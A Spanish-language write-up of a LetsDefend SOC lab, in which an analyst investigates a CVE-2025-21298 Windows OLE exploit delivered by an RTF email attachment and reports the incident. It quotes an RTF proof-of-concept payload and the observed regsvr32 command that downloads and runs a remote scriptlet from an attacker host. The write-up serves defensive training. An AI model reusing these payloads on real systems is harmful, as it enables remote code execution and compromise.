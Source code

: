 ```yaml
---
title: Let’s Defend SOC336
image: /assets/img/Anexos/Pasted%20image%2020250407101344-1.png
description: Let’s Defend: SOC336 — Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025–21298)
categories: [Blue Team,LetsDefend]
tags: [soc]
---
```




## Introduction
Estamos dentro de un SOC y nos llega una alerta de un incidente de nivel **crírico** y tenemos que actuar.

### Description

- Name: SOC336
- Goal: Investigar el incidente
- link: [LetsDefend](https://app.letsdefend.io)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/LetsDefend/LetsDefend%20SOC336.pdf)



## Incidente


Una vez recibida la alerta en el SOC creamos un nuevo saco para esta alerta:

![](/assets/img/Anexos/Pasted%20image%2020250407090151-1.png)

### Contexto 
1. Se ha detectado -> Windows OLE Zero-Click RCE Exploitation Detection (CVE-2025–21298)
2. Se trata de un correo electrónico por Outlook.
3. Contiene un adjunto (mail.rtf)
4. La razón desencadenante (malicious RTF attachment identified with known CVE-2025–21298 exploit pattern)


La extensión RTF se refiere al ==formato de archivo Rich Text Format (Formato de Texto Enriquecido)==. Se trata de un formato de archivo que permite abrir y editar textos en varios programas de procesamiento de texto.

CVE-2025-21298 es una **vulnerabilidad de zero-click** in Windows OLE donde el atacante envia un correo malicioso con un adjunto _.rft_. Cuando la víctima abre o visualiza el correo, el atacante puede ejecutar código arbitrario dentro del sistema gracias al _.rft_. 

**Prueba de concepto**

> https://github.com/ynwarcs/CVE-2025-21298

```rtf
{\rtf1{\object\objhtml\objw1\objh1\objupdate\rsltpict{\*\objclass None}{\*\objdata 0105000002000000
0a000000
53746174696344696200
00000000
00000000
04000000
00000000
00000000
05000000
02000000
aa00
02000000
00000000
}
}}
```


**Información Importante para la investigación**

- Usuarios involucrados
- Hashes
- Direcciones IP
- Hostnames
- Ficheros
- Acciones tomadas


### Investigación

Primero acudo a webs de inteligencia para comprobar si el hash es malicioso. Inmediatamente **Virus Total** lo detecta como malicioso y detecta el CVE:

![](/assets/img/Anexos/Pasted%20image%2020250407090747-1.png)

También lo compruebo en el apartado de **Threat Intel** del SOC:

![](/assets/img/Anexos/Pasted%20image%2020250407090934-1.png)


Una vez confirmado que el adjunto es un exploit, hay que entender que ha pasado. Como la entrada del exploit fue via SMTP, voy directo a **Email Security** y comienzo a filtrar:

![](/assets/img/Anexos/Pasted%20image%2020250407091142-1.png)

Tras el filtrado, se reporta el mail que originó el ataque, fue enviado por _projectmanagement@pm.me_ a el usuario _Austin@letsdefend.io_.

![](/assets/img/Anexos/Pasted%20image%2020250407091220-1.png)

El correo es el siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407091301-1.png)

Este correo se hace pasar por el jefe de proyecto del equipo y contiene un título y cuerpo que generan urgencia.

Sabiendo esto, Vamos al apartado **Endpoint Security** y filtramos por Austin para buscar actividades sospechosas y encontramos el desencadenante:

![](/assets/img/Anexos/Pasted%20image%2020250407091442-1.png)

Se ejecuta `OUTLOOK` para visualizar el correo,  y segundos después `cmd` y `regsvr32`.

![](/assets/img/Anexos/Pasted%20image%2020250407103438-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250407091553-1.png)



```powershell
regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll

# regsvr32.exe es una herramienta de línea de comandos que permite registrar y desregistrar controles OLE, como DLL y ActiveX, en el Registro de Windows

```

![](/assets/img/Anexos/Pasted%20image%2020250407091829-1.png)


OUTLOOK.EXE -> cmd.exe -> regsvr32.exe

Ahora podemos confirmar que se ha producido una ejecución de comandos explotando una vulnerabilidad en **Outlook**.  Ahora para obtener más información del servidor C2 (Command al Control) al que se ha hecho la solicitud mirando los logs y confirmar que se ha producido una conexión al C":


![](/assets/img/Anexos/Pasted%20image%2020250407092123-1.png)

Vemos que efectivamente se produjo una solicitud. Ahora el siguiente paso será ponerlo en cuarentena:


![](/assets/img/Anexos/Pasted%20image%2020250407092208-1.png)

Después de la Investigación toca reportar el incidente.

### Reporte

![](/assets/img/Anexos/Pasted%20image%2020250407092346-1.png)

En indicador ponemos "**otro**".

![](/assets/img/Anexos/Pasted%20image%2020250407092407-1.png)

En este apartado indicamos que el malware no fue eliminado ni puesto en curentena en ningún momento por el EDR:

![](/assets/img/Anexos/Pasted%20image%2020250407092446-1.png)

En el apartado análisis de malware indicamos que es malicioso ya que lo comprobamos anteriormente:

![](/assets/img/Anexos/Pasted%20image%2020250407092505-1.png)

Aquí confirmamos que hubo una petición a un C2 y se estableció la conexión:

![](/assets/img/Anexos/Pasted%20image%2020250407092529-1.png)

En los adjuntos podríamos añadir lo siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407092914-1.png)

Por último, en la nota final se podría añadir algo como:

![](/assets/img/Anexos/Pasted%20image%2020250407093225-1.png)